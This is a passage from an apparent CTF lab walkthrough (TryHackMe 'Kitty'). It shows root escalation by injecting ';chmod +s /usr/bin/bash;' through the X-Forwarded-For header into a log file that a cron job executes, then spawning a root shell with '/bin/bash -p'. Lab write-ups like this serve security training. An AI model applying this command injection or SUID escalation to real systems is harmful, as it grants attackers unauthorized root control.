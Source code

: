 ![](/assets/img/posts/walthrough/tryhackme/2024-10-22-kitty/root-2.png)
```bash
kitty@kitty:/var/www/development$ cat logged 
127.0.0.1
```

The IP address in the `X-Forwarded-For` HTTP header was logged successfully by the application. Now let's try to add a command that will poison the string executed by the cron job.
![](/assets/img/posts/walthrough/tryhackme/2024-10-22-kitty/root.png)
```bash
kitty@kitty:/var/www/development$ cat logged 
;chmod +s /usr/bin/bash;
kitty@kitty:/var/www/development$ ls /bin/bash -l
-rwsr-sr-x 1 root root 1183448 Apr 18  2022 /bin/bash
```

We see that our code was executed and the SUID bit was set on the bash binary. We can use this binary to access a root shell and read the second flag.
```bash
kitty@kitty:/var/www/development$ /bin/bash -p
bash-5.0# whoami
root
bash-5.0# ls /root
logged  root.txt  snap
```
